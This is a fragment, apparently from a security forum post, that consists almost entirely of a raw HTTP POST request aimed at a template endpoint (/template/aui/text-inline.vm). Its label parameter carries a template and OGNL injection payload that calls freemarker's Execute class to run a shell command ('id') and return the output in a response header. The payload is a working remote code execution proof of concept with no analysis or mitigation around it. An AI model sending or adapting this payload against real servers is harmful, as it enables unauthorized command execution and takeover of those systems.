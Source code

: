 ```http
POST /template/aui/text-inline.vm HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded

label=aaa\u0027%2b#request.get(\u0027.KEY_velocity.struts2.context\u0027).internalGet(\u0027ognl\u0027).findValue(#parameters.poc[0],{})%2b\u0027&poc=@org.apache. struts2.ServletActionContext@getResponse().setHeader('Cmd-Responses-Header',(new freemarker.template.utility.Execute()).exec({"id"}))
```

![image-20240122195829301](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-f82e4dbf18d18838be45b28ae066469339128414.png)